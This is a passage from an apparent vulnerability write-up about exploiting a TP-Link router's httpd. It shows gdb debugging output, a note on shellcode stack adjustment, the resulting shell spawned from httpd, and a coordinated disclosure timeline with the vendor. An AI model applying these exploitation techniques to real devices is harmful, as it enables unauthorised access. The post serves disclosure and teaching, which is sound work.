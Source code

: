 The number between square brackets is the **inode** value that
we can use via another entry in ``/proc`` to find more information
(we are looking at the inode 18959)

```text
(gdb) shell cat /proc/net/tcp
  sl  local_address rem_address   st tx_queue rx_queue tr tm->when retrnsmt   uid  timeout inode         
   ...
   5: 0A00020F:0050 0A000202:8614 01 00000000:00000000 00:00000000 00000000     0        0 18959 1 86cf0d60 21 4 1 5 -1
   ...
(gdb) print/d 0x50
$5 = 80
```

It seems legit! Obviously we need to subtract also ``0x28`` from the stack pointer if we want
to use it from inside the shellcode.

And at the end we can build out exploit and launch it

```text
 1599 ttyS0    Ss     0:00 /bin/login --
 1600 ttyS0    S      0:01  \_ -bash
 1615 ttyS0    S+     0:00      \_ bin/sh
26457 ttyS0    S+     0:11          \_ httpd
26458 ttyS0    S+     0:00              \_ httpd
26459 ttyS0    S+     0:00                  \_ httpd
26506 ttyS0    S+     0:00                  \_ httpd
  ...
18382 ttyS0    S+     0:03                  \_ httpd
18384 ttyS0    S+     0:00                  \_ sh
```

a beautiful ``sh`` session spawned from ``httpd`` :)

This wraps up the explanation of the exploitation, here
a video with a live demonstration:

{{% youtube id=0_GsX2xhngU %}}

## Timeline of disclosure

I contacted the vendor that acknowledged the vulnerability and fixed it

 - 23/01/2020: first contact with the security team of TP-Link
 - 31/01/2020: I sent them a report with the vulnerability
 - 17/02/2020: TP-Link security team asked for a video showing the PoC
 - 19/02/2020: I sent them the video
 - 04/03/2020: TP-Link security team sent me a fixed firmware to check
 - 25/03/2020: TP-Link released the new firmware
 - 30/03/2020: public disclosure with this post

## Testing environment

